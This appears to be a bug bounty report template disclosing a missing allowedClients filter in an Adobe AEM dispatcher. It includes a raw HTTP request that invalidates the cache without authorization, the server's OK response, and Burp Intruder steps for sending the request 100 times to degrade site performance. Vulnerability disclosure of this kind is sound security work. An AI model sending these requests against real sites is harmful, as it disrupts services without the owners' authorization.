 
# Missing dispatcher filters 

Type: Improper Access Control 

## Summary

Unauthorized attackers can invalidate/flush dispatcher cache remotely. This happens because "/allowedClients" property is not defined in the dispatcher configuration of target AEM The /allowedClients property should define specific clients that are allowed to flush the cache (delete and or modify/update files) on the server.

## Affected assets 
$URL

## Steps To Reproduce

Detect the vulnerability:

Use Burp (copy and paste request)
```
GET /dispatcher/invalidate.cache HTTP/1.1
Host: $DOMAIN
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
CQ-Handle: /content
CQ-Path: /content
Accept-Encoding: gzip

TEST
```
Response

```
HTTP/1.1 200 OK
Connection: close
Content-Length: 13
Content-Type: text/html; charset=UTF-8
Date: Fri, 23 Apr 2021 21:35:28 GMT
Server: Apache
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload


<H1>OK</H1>
```

Perform the actual attack:

Just use the previous request and use Burp's Intruder to send the request multiple times (for test proposes I will test with 100) 
 
**Configuring Burp Intruder**

1. Go to tab 'positions' and choose Attack type as 'Sniper'. 
2. Add the §§ symbols to the right side of the word "TEST"
3. Go to payload tab and select Numbers as payload type
4. In the Payload Options section, write From: 1, To: 100 and Step: 1
5. Then click en **Attack.**
You will see 100 requests with 200 status responses. 


## Impact

Unauthorized attackers can invalidate/flush dispatcher cache remotely without any rate limiting. If this is done repeatedly it can severely impact the site performance.

### Supporting Material/References:
https://docs.adobe.com/content/help/en/experience-manager-dispatcher/using/configuring/dispatcher-configuration.html#limiting-the-clients-that-can-flush-the-cache
https://twitter.com/aemsecurity/status/1244965623689609217?lang=en



